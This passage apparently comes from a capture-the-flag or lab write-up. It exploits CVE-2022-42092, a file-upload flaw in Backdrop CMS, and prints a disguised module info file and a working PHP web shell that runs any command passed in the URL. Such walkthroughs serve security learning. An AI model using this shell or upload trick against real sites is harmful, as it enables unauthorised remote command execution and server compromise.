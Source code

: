    ## 4. RCE Exploitation (Remote Code Execution) - CVE-2022-42092

    The next step is to search for vulnerabilities in Backdrop CMS. A quick search revealed **CVE-2022-42092**, which describes an Unrestricted File Upload vulnerability in `Backdrop CMS 1.22.0` via the 'themes' section that allows Remote Code Execution (RCE).

    To exploit this, we need two files:

    1.  **`shell.info`:** An info file for the module/theme that deceives the CMS.
    2.  **`shell.php`:** The PHP shell that will allow us to execute commands.

    **Content of `shell.info`:**

    ```
    ; File: shell.info
    type = module
    name = Shell
    description = Controls the visual building blocks a page is constructed with. Blocks are boxes of content rendered into an area, or region, of a web page.
    package = Layouts
    tags[] = Blocks
    tags[] = Site Architecture
    version = BACKDROP_VERSION
    backdrop = 1.x
    configure = admin/structure/block
    ; Information added by Backdrop CMS packaging script on 2024-03-07
    project = backdrop
    version = 1.27.1
    timestamp = 1789862662
    ```

    **Content of `shell.php` (simple command shell):**

    ```php
    ; File: shell.php
    <html>
    <body>
    <form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
    <input type="TEXT" name="cmd" autofocus id="cmd" size="80">
    <input type="SUBMIT" value="Execute">
    </form>
    <pre>
    <?php
    if(isset($_GET['cmd']))
    {
      system($_GET['cmd']);
    }
    ?>
    </pre>
    </body>
    </html>
    ```
